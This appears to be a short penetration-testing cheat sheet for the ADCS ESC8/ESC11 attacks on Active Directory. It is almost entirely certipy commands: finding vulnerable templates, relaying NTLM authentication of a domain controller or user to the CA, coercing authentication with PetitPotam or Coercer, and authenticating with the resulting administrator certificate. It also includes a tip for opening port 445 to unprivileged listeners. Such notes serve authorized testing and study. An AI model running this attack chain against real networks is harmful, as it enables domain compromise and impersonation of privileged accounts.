# ADCS ESC8/ESC11

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. NTLM Relay (Relaying Domain Controller account)
```
certipy relay \
    -target 'https://<IP_ADDRESS>' -template 'DomainController'
```

## 2b. NTLM Relay (Relaying User account)
```
certipy relay -target 'https://<IP_ADDRESS>'
```

## Tip: If you get a 'permission denied' while trying to listen on port 445, you can use the command (on Linux): `echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start`

## 3. Coerce Authentication with other tool (Petitpotam, Coercer)

## 4. Certipy relays the authentication and requests a certificate

## 5. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
